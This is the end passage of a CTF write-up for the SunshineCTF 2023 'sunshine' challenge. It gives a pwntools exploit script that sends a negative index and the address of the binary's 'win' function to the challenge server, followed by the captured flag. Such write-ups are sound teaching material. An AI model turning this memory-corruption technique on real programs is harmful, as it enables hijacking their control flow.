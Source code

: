 BOOM! Code execution redirected. Now let's quickly replace `"AAAAAA"` with the memory address of `win`. Let's also write a neat python script to grab the flag for us.
```python
from pwn import *

context.log_level = 'critical'

# p = process('./sunshine')
p = remote('chal.2023.sunshinectf.games', 23003)
elf = ELF('./sunshine')

p.sendline(b'-8')
p.sendline(p64(elf.symbols['win']))

p.recvuntil(b'sun')
flag = p.recvuntil(b'}').decode()
print('FLAG: sun{}'.format(flag) )
```
{: file="exploit.py"}

and run it
```console
$ python exploit.py
FLAG: sun{a_ray_of_sunshine_bouncing_around}
```

and that wraps up this writeup!

## FLAG

`sun{a_ray_of_sunshine_bouncing_around}`

